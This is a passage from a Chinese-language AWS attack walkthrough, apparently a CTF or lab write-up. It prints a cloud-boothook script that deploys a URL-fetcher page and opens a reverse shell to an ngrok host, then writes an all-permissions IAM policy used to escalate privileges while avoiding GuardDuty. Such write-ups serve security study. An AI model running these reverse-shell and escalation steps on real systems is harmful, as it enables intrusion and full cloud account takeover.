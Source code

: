 ```
#cloud-boothook
#!/bin/bash
yum update -y
yum install php -y
yum install httpd -y
mkdir -p /var/www/html
cd /var/www/html
rm -rf ./*
printf "&lt;?phpnif(isset($_POST['url'])) `{`n  if(strcmp($_POST['password'], '38732856813292286581372217649') != 0) `{`n    echo 'Wrong password. You just need to find it!';n    die;n  `}`n  echo '&lt;pre&gt;';n  echo(file_get_contents($_POST['url']));n  echo '&lt;/pre&gt;';n die;`}`n?&gt;n&lt;html&gt;&lt;head&gt;&lt;title&gt;URL Fetcher&lt;/title&gt;&lt;/head&gt;&lt;body&gt;&lt;form method='POST'&gt;&lt;label for='url'&gt;Enter the password and a URL that you want to make a request to (ex: https://google.com/)&lt;/label&gt;&lt;br /&gt;&lt;input type='text' name='password' placeholder='Password' /&gt;&lt;input type='text' name='url' placeholder='URL' /&gt;&lt;br /&gt;&lt;input type='submit' value='Retrieve Contents' /&gt;&lt;/form&gt;&lt;/body&gt;&lt;/html&gt;" &gt; index.php
/usr/sbin/apachectl start
bash -i &gt;&amp; /dev/tcp/0.tcp.ngrok.io/15547 0&gt;&amp;1
```

Base64编码后，我开始替换元数据：

[![](https://p0.ssl.qhimg.com/t017fa84110402fea32.png)](https://p0.ssl.qhimg.com/t017fa84110402fea32.png)

完成之后，我可以重启实例，等待着shell上线：

[![](https://p2.ssl.qhimg.com/t019da907775942becd.png)](https://p2.ssl.qhimg.com/t019da907775942becd.png)

Uff… 做到了。现在，我可以用该实例的`ec2_role`做任何事情，而不用担心GuardDuty（检测系统）。然而，这个角色权限实在是太低了。让Bob去看看该`ec2_role`到底能干什么吧。三个简单的步骤：

a) 遵循的策略：

[![](https://p1.ssl.qhimg.com/t01deb24ac72762c73f.png)](https://p1.ssl.qhimg.com/t01deb24ac72762c73f.png)

b) 当前`ec2_ip_policy`版本：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t014161781285f36463.png)

c) 权限：

[![](https://p5.ssl.qhimg.com/t0195f6bb4009a003a3.png)](https://p5.ssl.qhimg.com/t0195f6bb4009a003a3.png)

Hell yeah! 我可以创建其他的策略，这意味着我可以覆盖`ec2_role`的策略。新策略设置为默认策略才生效。其他有趣的地方，你不需要权限`iam:SetDefaultPolicyVersion`就可以把它应用为默认策略`--set-as-default`。

用`echo`命令可以创建一个新的`escalated_policy.json`文件：

```
`{`
    "Version": "2012-10-17",
    "Statement": [
        `{`
            "Effect": "Allow",
            "Action": "*",
            "Resource": "*"
        `}`
    ]
`}`
```
